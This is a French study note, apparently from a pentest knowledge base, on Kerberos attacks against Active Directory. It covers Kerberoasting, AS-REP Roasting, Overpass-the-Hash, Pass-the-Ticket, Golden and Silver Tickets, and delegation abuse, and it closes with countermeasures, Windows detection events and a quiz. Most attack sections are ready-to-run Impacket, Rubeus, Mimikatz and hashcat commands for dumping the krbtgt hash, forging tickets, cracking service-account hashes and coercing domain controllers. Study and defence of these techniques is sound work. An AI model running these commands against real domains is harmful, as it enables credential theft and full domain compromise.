

# Kerberos Attacks

Kerberos est le protocole d'authentification central d'Active Directory. Ses mécanismes de tickets exposent plusieurs vecteurs d'attaque allant du cracking hors ligne (Kerberoasting, AS-REP Roasting) à la falsification de tickets (Golden/Silver Ticket) et à la délégation non contrainte.

> [!important] Distinction clé
> Ces attaques se répartissent en deux familles très différentes : celles qui **craquent un secret hors ligne** (Kerberoasting, AS-REP Roasting — pas de lockout, silencieuses) et celles qui **forgent directement un ticket** à partir d'un hash déjà obtenu (Golden/Silver Ticket — accès immédiat, pas de cracking). Confondre les deux fait perdre du temps sur la mauvaise approche.

> [!abstract] Définition — Kerberos
> Protocole d'authentification à tickets utilisé par Active Directory, dans lequel le KDC délivre un TGT puis des TGS pour chaque service. La sécurité repose sur les hashes des comptes : celui de krbtgt signe les TGT, celui d'un compte de service chiffre ses TGS. Les attaques consistent soit à cracker ces tickets hors ligne, soit à en forger directement à partir d'un hash déjà obtenu.

## Rappel du protocole Kerberos



Quatre acteurs interviennent. Le **KDC** (*Key Distribution Center*), hébergé par le contrôleur de domaine, est l'autorité centrale ; il se compose du service d'authentification (**AS**), qui délivre les TGT, et du service de tickets (**TGS**), qui délivre les tickets de service. Le compte spécial **krbtgt**, enfin, est la clé de voûte : son hash chiffre et signe tous les TGT, si bien que quiconque le connaît peut forger des tickets indétectables. C'est pourquoi la plupart des attaques Kerberos tournent autour de ces hashes, soit pour les cracker, soit pour les voler.

> [!abstract] Définition — TGT
> Ticket délivré par le KDC en réponse à un AS-REQ, chiffré avec le hash de krbtgt : le client le présente ensuite pour obtenir des tickets de service (TGS) sans re-présenter son mot de passe.

> [!abstract] Définition — SPN
> ServicePrincipalName, attribut AD qui lie un compte à un service (ex. `cifs/SERVER01.contoso.local`) ; tout compte disposant d'un SPN se voit demander un TGS par n'importe quel utilisateur authentifié — la matière première du Kerberoasting.

## Kerberoasting

> [!abstract] Définition — Kerberoasting
> Attaque hors ligne consistant à demander un TGS pour un compte avec SPN puis à cracker le hash qui le chiffre : le mot de passe du compte de service peut être retrouvé sans verrouillage de compte, puisque l'attaque force les hash hors ligne au lieu de les deviner en ligne.

Le Kerberoasting consiste à demander des tickets de service pour des comptes qui portent un SPN, puis à cracker hors ligne le hash qui les chiffre. Le principe tient à une propriété du protocole : tout utilisateur authentifié peut demander un TGS pour n'importe quel SPN, et ce TGS est chiffré avec le hash du compte de service associé. L'attaquant récupère donc ce ticket, en extrait la partie chiffrée et la soumet à un outil de cassage sur sa propre machine. Comme le cassage se fait hors ligne, il ne déclenche aucun verrouillage de compte et ne laisse aucune trace côté serveur. Si le mot de passe du compte de service est faible, il finit par tomber.

Les cibles idéales sont les comptes de service tenus par un humain : un administrateur a créé un compte `svc_sql` avec un mot de passe qu'il a choisi lui-même, souvent trop court. À l'inverse, les comptes machine ont un mot de passe de 120 caractères aléatoires, incassable en pratique : les viser ne sert à rien.

```bash
# Impacket — GetUserSPNs.py
python3 GetUserSPNs.py domaine.local/alice:Password123 -dc-ip 192.168.1.1

# Avec dump des hashes pour cracking
python3 GetUserSPNs.py domaine.local/alice:Password123 -dc-ip 192.168.1.1 \
    -request -outputfile kerberoast_hashes.txt

# Rubeus — depuis Windows
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe kerberoast /user:svc_sql /outfile:svc_sql_hash.txt   # Cibler un compte

# PowerView — identifier les comptes kerberoastables
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname

# CrackMapExec
nxc ldap 192.168.1.1 -u alice -p Password123 --kerberoasting hashes.txt

# Cracker les hashes
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule

# AES hashes (mode 19600 = AES128, 19700 = AES256)
hashcat -m 19700 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

> [!tip] Côté détection
> Le Kerberoasting laisse une trace mesurable côté DC : une rafale d'événements 4769 (demandes de TGS) émise par un unique compte, d'autant plus suspecte que le type de chiffrement est RC4-HMAC (0x17), rapide à cracker. Écrire la règle Sigma, vérifier la collecte et éprouver la détection en atelier offensif-défensif est l'objet de [[Detection Engineering]] et [[Purple Teaming]].

## AS-REP Roasting

L'AS-REP Roasting cible les comptes dont la pré-authentification Kerberos est désactivée. Normalement, la pré-authentification oblige le client à chiffrer un horodatage avec son mot de passe avant que le KDC ne lui délivre quoi que ce soit : c'est la preuve qu'il connaît bien le secret. Mais certains comptes, souvent anciens ou liés à des applications qui ne la gèrent pas, ont l'option `DONT_REQUIRE_PREAUTH` activée. Pour eux, n'importe qui peut demander un AS-REP sans connaître le mot de passe, et cet AS-REP contient une partie chiffrée avec le hash du compte, donc cassable hors ligne, exactement comme pour le Kerberoasting. L'attribut concerné est un bit de `userAccountControl` (la valeur 4194304).

```bash
# Impacket — GetNPUsers.py (pas de credentials nécessaires si pré-auth désactivée)
python3 GetNPUsers.py domaine.local/ -usersfile users.txt -dc-ip 192.168.1.1 -no-pass

# Avec credentials (pour énumérer qui a DONT_REQUIRE_PREAUTH)
python3 GetNPUsers.py domaine.local/alice:Password123 -dc-ip 192.168.1.1 \
    -request -format hashcat -outputfile asrep_hashes.txt

# Rubeus — depuis Windows
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe asreproast /user:alice /format:hashcat /outfile:alice_hash.txt

# PowerView — identifier les comptes vulnérables
Get-DomainUser -UACFilter DONT_REQ_PREAUTH | Select-Object samaccountname

# Cracker les hashes AS-REP
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
john --format=krb5asrep asrep_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## Overpass-the-Hash (Pass-the-Key)

L'Overpass-the-Hash convertit un hash NTLM en un véritable ticket Kerberos (un TGT). La différence avec le Pass-the-Hash classique est le protocole employé : le Pass-the-Hash rejoue le hash via une authentification NTLM (vers SMB, WMI…), alors que l'Overpass-the-Hash s'en sert pour obtenir un TGT complet et poursuivre en Kerberos. L'intérêt est surtout de discrétion : dans beaucoup d'environnements, le trafic Kerberos est la norme et attire moins l'attention que le NTLM, souvent surveillé de près.

```bash
# Impacket — getTGT.py avec hash NTLM
python3 getTGT.py domaine.local/administrator -hashes :NTLM_HASH -dc-ip 192.168.1.1
export KRB5CCNAME=administrator.ccache

# Utiliser le TGT
python3 psexec.py domaine.local/administrator@DC01 -k -no-pass
python3 secretsdump.py -k -no-pass domaine.local/administrator@DC01

# Rubeus — depuis Windows
Rubeus.exe asktgt /user:Administrator /rc4:NTLM_HASH /ptt
# /ptt = Pass-the-Ticket → injecte le TGT dans la session courante

# Mimikatz
sekurlsa::pth /user:Administrator /domain:domaine.local /ntlm:NTLM_HASH /run:cmd.exe
# Ouvre une cmd.exe avec le contexte Kerberos d'Administrator
```

## Pass-the-Ticket (PtT)

Injecter un ticket Kerberos volé (TGT ou TGS) dans une session.

```bash
# Exporter les tickets depuis la mémoire
# Mimikatz
sekurlsa::tickets /export      # Exporte les .kirbi
kerberos::list /export

# Rubeus
Rubeus.exe dump /nowrap         # Dump en base64
Rubeus.exe dump /service:krbtgt /nowrap   # Seulement les TGTs

# Impacket — depuis Linux
python3 ticketConverter.py ticket.kirbi ticket.ccache   # Convertir .kirbi → .ccache
export KRB5CCNAME=ticket.ccache

# Injecter un ticket
# Mimikatz
kerberos::ptt ticket.kirbi

# Rubeus
Rubeus.exe ptt /ticket:TICKET_BASE64
Rubeus.exe ptt /ticket:C:\tickets\ticket.kirbi

# Vérifier les tickets injectés
klist              # Windows (natif)
Rubeus.exe klist
```

## Golden Ticket

> [!abstract] Définition — Golden Ticket
> TGT forgé par l'attaquant à partir du hash de krbtgt (obtenu via DCSync ou dump NTDS), valable par défaut 10 ans sous Mimikatz et invalidable uniquement par une double rotation du mot de passe krbtgt.

Forger un TGT arbitraire avec le hash de krbtgt → persistance totale sur le domaine.

```
Prérequis : hash NTLM (ou AES) du compte krbtgt
  → Obtenu via DCSync (lsadump::dcsync) ou dump NTDS

Impact :
  → TGT valide pour 10 ans (par défaut dans Mimikatz)
  → Accès à n'importe quelle ressource du domaine
  → Survit aux réinitialisations de mots de passe des utilisateurs
  → Persiste même si le compte compromis est supprimé
  → SEUL moyen de l'invalider : changer le mot de passe de krbtgt DEUX FOIS
```

```bash
# Obtenir le hash krbtgt
# Mimikatz (sur le DC ou avec DCSync)
lsadump::dcsync /user:krbtgt /domain:domaine.local

# Impacket
python3 secretsdump.py domaine.local/administrator:Password@DC01 -just-dc-user krbtgt

# Récupérer le SID du domaine
python3 lookupsid.py domaine.local/alice:Password123@DC01 | head -5

# Forger le Golden Ticket
# Mimikatz
kerberos::golden /user:Administrator \
    /domain:domaine.local \
    /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX \
    /krbtgt:KRBTGT_NTLM_HASH \
    /id:500 \
    /groups:512,513,518,519,520 \
    /ptt

# Avec Impacket
python3 ticketer.py -nthash KRBTGT_HASH \
    -domain-sid S-1-5-21-... \
    -domain domaine.local Administrator

export KRB5CCNAME=Administrator.ccache
python3 psexec.py domaine.local/Administrator@DC01 -k -no-pass
```

## Silver Ticket

Le Silver Ticket forge un ticket de service pour un service précis, à partir du hash du compte de ce service. La différence avec le Golden Ticket tient à la portée et à la furtivité. Le Golden forge un TGT et donne accès à tout, mais il doit passer par le KDC pour obtenir chaque ticket de service, ce qui laisse des traces côté contrôleur de domaine. Le Silver forge directement un TGS pour un seul service, qu'il présente sans jamais contacter le KDC : l'accès est limité, mais invisible côté domaine.

Le service visé est désigné par son SPN. Les plus courants sont `cifs/SERVER01` pour les partages de fichiers SMB, `http/SERVER01` pour un site IIS en authentification Kerberos, `mssql/SERVER01` pour SQL Server, `host/SERVER01` pour les tâches planifiées et les services, et `wsman/SERVER01` pour WinRM et le PowerShell à distance.

```bash
# Mimikatz — Silver Ticket
kerberos::golden /user:Administrator \
    /domain:domaine.local \
    /sid:S-1-5-21-... \
    /target:SERVER01.domaine.local \
    /service:cifs \
    /rc4:MACHINE_ACCOUNT_NTLM_HASH \
    /ptt

# Impacket — Silver Ticket
python3 ticketer.py -nthash MACHINE_HASH \
    -domain-sid S-1-5-21-... \
    -domain domaine.local \
    -spn cifs/SERVER01.domaine.local \
    Administrator

export KRB5CCNAME=Administrator.ccache
python3 smbclient.py -k domaine.local/Administrator@SERVER01
```

## Délégation Kerberos — Attaques

La délégation Kerberos permet à un service d'agir au nom d'un utilisateur auprès d'un autre service, par exemple à un serveur web d'interroger une base de données sous l'identité du visiteur. Pratique, mais dangereuse dès qu'elle est mal cadrée. Elle existe sous trois formes, de la plus à la moins risquée.

La **délégation non contrainte** (*unconstrained*) est la plus permissive : le serveur peut se faire passer pour l'utilisateur auprès de n'importe quel service, parce que le TGT complet de l'utilisateur est déposé dans la mémoire du serveur. Compromettre un tel serveur revient donc à récolter les TGT de tous ceux qui s'y connectent, administrateurs compris. En forçant un contrôleur de domaine à s'authentifier vers ce serveur (avec le PrinterBug ou PetitPotam), on capture le TGT du DC lui-même.

La **délégation contrainte** (*constrained*) limite la délégation à une liste de services déclarés dans l'attribut `msDS-AllowedToDelegateTo`. Mais les extensions S4U2Self et S4U2Proxy permettent au serveur de se faire passer pour n'importe quel utilisateur auprès de ces services autorisés, y compris un administrateur.

La **délégation contrainte basée sur la ressource** (RBCD) inverse le point de contrôle : c'est la ressource cible qui déclare, dans son attribut `msDS-AllowedToActOnBehalfOfOtherIdentity`, qui a le droit de déléguer vers elle. Si l'on obtient un droit d'écriture sur cet attribut, on y inscrit une machine que l'on contrôle, puis on utilise S4U2Self et S4U2Proxy pour obtenir un ticket au nom de l'administrateur vers la cible.

```bash
# Trouver les serveurs avec délégation non contrainte
Get-DomainComputer -Unconstrained | Select-Object dnshostname

# SpoolSample / PrinterBug — forcer le DC à s'authentifier vers la machine compromise
# Si DC a besoin de s'authentifier → son TGT arrive sur notre machine
python3 printerbug.py domaine.local/alice:Password123@DC01 MACHINE_AVEC_DELEGATION

# Capturer le TGT du DC avec Rubeus
Rubeus.exe monitor /interval:5 /nowrap    # Sur la machine avec délégation non contrainte
# Quand le DC s'authentifie → TGT DC$ capturé → DCSync possible

# Exploitation RBCD (avec WriteProperty sur msDS-AllowedToActOnBehalfOfOtherIdentity)
# Impacket — rbcd.py
python3 rbcd.py -delegate-from 'attacker$' -delegate-to 'TARGET$' \
    -action write domaine.local/alice:Password123

# Obtenir un TGS en tant qu'Administrator pour TARGET
python3 getST.py -spn cifs/TARGET.domaine.local \
    -impersonate Administrator \
    domaine.local/'attacker$':Password123
```

## Contre-mesures

Contre le **Kerberoasting**, tout se joue sur le mot de passe des comptes de service : il faut qu'il soit long (au moins 25 caractères) ou, mieux, qu'il soit géré automatiquement par un compte de service managé (MSA ou gMSA), dont le mot de passe de 120 caractères est renouvelé par le système. Désactiver le chiffrement RC4 au profit d'AES retire aux attaquants le format le plus rapide à casser, et une alerte sur les rafales de demandes de TGS (événement 4769) permet de repérer l'attaque.

Contre l'**AS-REP Roasting**, la règle est simple : ne jamais désactiver la pré-authentification sans raison impérieuse, et auditer régulièrement les comptes où elle l'est (`Get-DomainUser -UACFilter DONT_REQ_PREAUTH`).

Contre les **Golden et Silver Tickets**, la mesure clé est la rotation du mot de passe de krbtgt, qu'il faut changer deux fois de suite pour invalider les TGT existants, et au moins tous les six mois. Le groupe *Protected Users* empêche la délégation et force le chiffrement AES, tandis que Credential Guard protège les tickets en mémoire contre leur vol.

Contre la **délégation non contrainte**, il faut l'auditer et la supprimer partout où elle n'est pas indispensable, lui préférer la délégation contrainte ou RBCD, et marquer les comptes sensibles comme « ne pouvant pas être délégués ».

Côté **détection**, quelques événements Windows sont à surveiller : 4768 (demande de TGT), 4769 (demande de TGS, signe de Kerberoasting en cas de chiffrement RC4 et de volume anormal), 4771 (échec de pré-authentification) et 4624/4672 (authentification avec privilèges élevés).

## Pièges courants

> [!warning] Pièges courants
> - **Kerberoasting vs AS-REP Roasting — confusion classique** : Kerberoasting cible des comptes **avec SPN** (besoin d'être authentifié pour demander un TGS). AS-REP Roasting cible des comptes **sans pré-auth** (`DONT_REQUIRE_PREAUTH`, possible sans creds). Les modes hashcat sont différents (13100 vs 18200).
> - **Format de hash Kerberoast change avec l'encryption type** : `$krb5tgs$23$` = RC4-HMAC (crack rapide), `$krb5tgs$18$` = AES256 (très lent). Beaucoup ratent un crack parce qu'ils utilisent le mauvais mode hashcat (`-m 19700` pour AES256).
> - **Compte machine = mot de passe 120 caractères aléatoires** : Kerberoasting un compte machine ne donne quasiment jamais rien (mot de passe non humain). Cibler uniquement les comptes avec SPN qui sont des **comptes humains** convertis en comptes de service.
> - **Pré-auth Kerberos désactivée mais compte verrouillé** : un compte AS-REP roastable mais désactivé ne donne rien. Toujours filtrer `userAccountControl` pour les comptes actifs.
> - **Golden Ticket avec krbtgt rotation insuffisante** : changer le mot de passe krbtgt UNE FOIS ne suffit pas — Windows garde l'historique des 2 derniers mots de passe pour la résilience. Il faut changer **deux fois** rapidement pour invalider les Golden Tickets existants.
> - **Silver Ticket invisible côté DC** : contrairement à un Golden, un Silver Ticket ne touche jamais le DC (forge un TGS, pas un TGT). Les logs côté DC ne montrent rien. Détection seulement côté service ciblé.
> - **Unconstrained Delegation = TOUS les TGT entrants** : pas seulement ceux des admins. Mais c'est l'attente d'une connexion d'admin qui rend l'attaque utile. Combiner avec PrinterBug ou PetitPotam pour forcer le DC$ à se connecter.
> - **PAC validation et signature** : depuis les CVE 2022 (CVE-2022-37967), Microsoft a renforcé les signatures PAC. Certains Golden/Silver Tickets old-school échouent maintenant. Toujours forger avec les signatures correctes (`/sids` et `/groups` cohérents avec le domaine).
> - **`klist` montre les tickets mais ne les valide pas** : un ticket peut apparaître valide dans `klist` mais être rejeté par le service à l'usage. Tester avec un service réel (`dir \\target\C$`).
> - **AES tickets requièrent la salt correcte** : pour forger un ticket AES, il faut la salt Kerberos exacte du compte (`USERNAMEdomain.com` pour user, `host/COMPUTERNAME.domain.comDOMAIN.COM` pour machine). Une salt incorrecte = signature invalide.

> [!quiz] Pourquoi un Silver Ticket est-il plus discret qu'un Golden Ticket ?
> Le Silver Ticket est un TGS forgé avec le hash du compte de service et présenté directement au service ciblé : le KDC n'est jamais contacté, donc aucun événement 4768/4769 n'apparaît côté domaine. Le Golden Ticket est un TGT qui doit être échangé auprès du KDC pour obtenir des TGS, ce qui laisse une trace côté DC.
